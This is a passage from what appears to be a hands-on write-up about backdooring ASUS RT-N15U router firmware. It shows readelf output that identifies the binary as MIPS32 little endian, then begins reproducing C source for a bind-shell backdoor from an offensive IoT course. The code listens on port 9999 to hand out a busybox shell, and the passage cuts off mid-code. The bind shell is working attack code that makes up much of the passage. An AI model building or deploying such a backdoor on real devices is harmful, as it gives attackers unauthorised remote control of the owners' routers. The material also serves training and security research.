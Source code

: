 	ELF Header:
	  Magic:   7f 45 4c 46 01 01 01 00 00 00 00 00 00 00 00 00
	  Class:                             ELF32
	  Data:                              2's complement, little endian
	  Version:                           1 (current)
	  OS/ABI:                            UNIX - System V
	  ABI Version:                       0
	  Type:                              EXEC (Executable file)
	  Machine:                           MIPS R3000
	  Version:                           0x1
	  Entry point address:               0x403140
	  Start of program headers:          52 (bytes into file)
	  Start of section headers:          229488 (bytes into file)
	  Flags:                             0x50001007, noreorder, pic, cpic, o32, mips32
	  Size of this header:               52 (bytes)
	  Size of program headers:           32 (bytes)
	  Number of program headers:         8
	  Size of section headers:           40 (bytes)
	  Number of section headers:         28
	  Section header string table index: 27

    .. snip ..

From this output we can determine that the architecture is mips32 and
that the binary is little endian. Armed with this knowledge a backdoor
that will be compatible with this firmware can be built.

## Compile A Backdoor For Mips Little Endian Arthitecture

Now that the architecture and endianness was known, a backdoor could
be built that is compatible with the RT-N15U firmware. The backdoor that was
provided during the course was used once again for this project. This
backdoor is reproduced below:

{% highlight c %}

/* Bindshell for Embedded system running Busybox
Author - Vivek Ramachandran
http://pentesteracademy.com
http://securitytube-training.com
http://securitytube.net

*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>

#define SERVER_PORT	9999
int main() {
	int serverfd, clientfd, server_pid, i = 0;
	char *banner = "[~] Welcome to @OsandaMalith's Bind Shell\n Welcome to Offensive IoT Exploitation\n";
	char *args[] = { "/bin/busybox", "sh", (char *) 0 };
	struct sockaddr_in server, client;
	socklen_t len;

	server.sin_family = AF_INET;
	server.sin_port = htons(SERVER_PORT);
	server.sin_addr.s_addr = INADDR_ANY;

	serverfd = socket(AF_INET, SOCK_STREAM, 0);
	bind(serverfd, (struct sockaddr *)&server, sizeof(server));
	listen(serverfd, 1);
